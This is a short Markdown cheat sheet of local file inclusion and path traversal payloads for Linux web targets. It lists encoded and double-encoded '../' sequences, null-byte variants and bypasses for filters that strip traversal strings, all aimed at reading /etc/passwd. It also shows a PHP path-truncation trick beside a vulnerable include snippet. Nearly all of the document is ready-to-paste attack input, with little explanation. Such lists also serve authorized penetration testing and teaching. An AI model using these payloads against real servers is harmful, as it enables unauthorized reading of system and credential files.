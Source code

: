 # LFI-Cheat-sheet - LINUX 
-------------------

**Quick Copy-Pastes:**

../
../../
../../../
../../../../
../../../../../
../../../etc/passwd
%2E%2F - Single URL Encode ./
%252E%252F - Double URL Encode ./
%2E%2E%2F - Single URL Encoded ../
%252E%252E%252F - Double URL Encoded ../

**traversal sequence stripped:**
....//....//....//etc/passwd
....\/....\/....\/etc/passwd
%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

**Null Byte variations:**
%00
%2500 - URL Encoded
%00%00

**URL Encoded:**
..%252f..%252f..%252fetc%252fpasswd - double encode
..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
%252e%252e%252fetc%252fpasswd
%252e%252e%252fetc%252fpasswd%00

**Traversal from existent folder:**
utils/scripts/(Any suspected path)../../../../../etc/passwd

**Truncated paths -** after 4096 Bytes, PHP will drop anything after 4096 bytes.
<?php
include("includes/".$_GET['param1'].".php");
?>
ex:../../../etc/passwd../././././././<x4096 repetitions of "./"> .php  >> ".php" will be dropped might by pass the above code.
./ - can be substitued with other symbols or dots.

**Filter Bypass Tricks:**
....//....//etc/passwd
..///////..////..//////etc/passwd
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
/var/www/../../etc/passwd





